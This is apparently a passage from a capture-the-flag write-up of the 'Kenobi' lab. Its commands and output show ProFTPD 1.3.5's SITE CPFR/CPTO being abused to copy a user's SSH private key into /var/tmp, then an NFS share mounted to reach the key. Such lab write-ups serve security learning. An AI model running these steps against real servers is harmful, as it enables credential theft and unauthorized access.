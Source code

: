 ```bash
```

### Using SITE CPFR & SITE CPTO
- **SITE CPFR** - This SITE command specifies the source file/directory to use for copying from one place to another directly on the server.
- **SITE CPTO** - This SITE command specifies the destination file/directory to use for copying from one place to another directly on the server.

```bash
$ nc 10.10.108.221 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.108.221]

SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name

SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

### Mounting the /var/tmp directory to our machine

```bash
$ mkdir /mnt/kenobiNFS
$ mount 10.10.108.221:/var /mnt/kenobiNFS

$ ls -la /mnt/kenobiNFS
total 56
drwxr-xr-x 14 root root    4096 Sep  4  2019 .
drwxr-xr-x  3 root root    4096 May 16 22:54 ..
drwxr-xr-x  2 root root    4096 Sep  4  2019 backups
drwxr-xr-x  9 root root    4096 Sep  4  2019 cache
drwxrwxrwt  2 root root    4096 Sep  4  2019 crash
drwxr-xr-x 40 root root    4096 Sep  4  2019 lib
drwxrwsr-x  2 root staff   4096 Apr 13  2016 local
lrwxrwxrwx  1 root root       9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root crontab 4096 Sep  4  2019 log
drwxrwsr-x  2 root mail    4096 Feb 27  2019 mail
drwxr-xr-x  2 root root    4096 Feb 27  2019 opt
lrwxrwxrwx  1 root root       4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root    4096 Jan 30  2019 snap
drwxr-xr-x  5 root root    4096 Sep  4  2019 spool
drwxrwxrwt  6 root root    4096 May 16 22:49 tmp
drwxr-xr-x  3 root root    4096 Sep  4  2019 www

$ ls -la /mnt/kenobiNFS/tmp
total 28
drwxrwxrwt  6 root root 4096 May 16 22:49 .
drwxr-xr-x 14 root root 4096 Sep  4  2019 ..
-rw-r--r--  1 ds   ds   1675 May 16 22:49 id_rsa
drwx------  3 root root 4096 Sep  4  2019 systemd-private-2408059707bc41329243d2fc9e613f1e-systemd-timesyncd.service-a5PktM
drwx------  3 root root 4096 Sep  4  2019 systemd-private-6f4acd341c0b40569c92cee906c3edc9-systemd-timesyncd.service-z5o4Aw
drwx------  3 root root 4096 May 16 22:08 systemd-private-d12feb6c5fe5457680089dceb1e3ae69-systemd-timesyncd.service-15xzHQ
drwx------  3 root root 4096 Sep  4  2019 systemd-private-e69bbb0653ce4ee3bd9ae0d93d2a5806-systemd-timesyncd.service-zObUdn
```
